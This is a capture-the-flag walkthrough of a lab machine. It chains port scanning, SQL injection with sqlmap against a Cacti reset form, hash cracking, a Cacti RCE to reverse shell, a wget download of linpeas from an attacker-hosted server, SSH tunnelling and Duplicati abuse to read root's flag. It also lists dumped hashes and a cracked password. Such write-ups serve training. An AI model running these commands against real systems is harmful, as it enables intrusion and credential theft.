The initial step was to perform a full TCP port scan to identify open services and gather banner information:
nmap -sVC -p- --open -sS --min-rate 5000 -v -n -Pn -oN monitors3_scan 10.10.11.30We found SSH and HTTP (port 80) open, and the scan also revealed the IP address to use.

The IP and hostname were added to /etc/hosts for proper name resolution.
Using Wappalyzer, the technologies used on the web application were identified.

Initial directory enumeration revealed an /admin page that returned a Forbidden status.


Using ffuf, I enumerated subdomains and discovered cacti.monitorsthree.htb:
ffuf -u http://monitorsthree.htb/ -H "Host: FUZZ.monitorsthree.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fs 13560
The subdomain hosts a Cacti installation with a login page and a "Forgot Password" feature. Testing inputs suggested a potential SQL Injection vulnerability:




SQLMap was used to enumerate databases and extract user credentials:
sqlmap -r request_pass.txt -p username --dbs
Inspecting the users table revealed password hashes for several users:
+-----------+----------------------------------+-----------------------------+
| username | password | email |
+-----------+----------------------------------+-----------------------------+
| admin | 31a181c8372e3afc59dab863430610e8 | admin@monitorsthree.htb |
| dthompson | 633b683cc128fe244b00f176c8a950f5 | dthompson@monitorsthree.htb |
| janderson | 1e68b6eb86b45f6d92f8f292428f77ac | janderson@monitorsthree.htb |
| mwatson | c585d01f2eb3e6e1073e92023088a3dd | mwatson@monitorsthree.htb |
+-----------+----------------------------------+-----------------------------+
After cracking the hashes, we obtained credentials:
admin:greencacti2001

Using these credentials, we could log in to:


We identified three users in Cacti:

Cacti version 1.2.26 has a known remote code execution vulnerability:
Cacti RCE Advisory
Using the exploit, a PHP payload was executed by uploading a test.xml.gz file:


This gave a reverse shell as www-data:


While enumerating the filesystem, the file db.php was discovered, which contained credentials for user marcus:


The hash for marcus was cracked using Hashcat:
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt --userSSH access as marcus was then obtained:

Checking .ssh and stabilizing the connection:


LinPEAS was uploaded for privilege enumeration using a simple Python HTTP server:
python3 -m http.server 1234 and wget http://<YourIP>:1234/linpeas.sh
Port enumeration revealed an internal service on port 8200. Using SSH port forwarding, it was accessed locally:
ssh -L 8200:127.0.0.1:8200 -i rsa marcus@monitorsthree.htb
Following the documented Duplicati exploit, the Duplicati-server.sqlite database was downloaded and analyzed to recover the server passphrase:

Passphrase after decoding & converting to hex:
59be9ef39e4bdec37d2d3682bb03d7b9abadb304c841b7a498c02bec1acad87a


With the correct passphrase, access to the Duplicati panel was obtained:

A backup job was created to restore the root.txt file to /home/marcus/:




Finally, the root.txt file was recovered via marcus's SSH session:
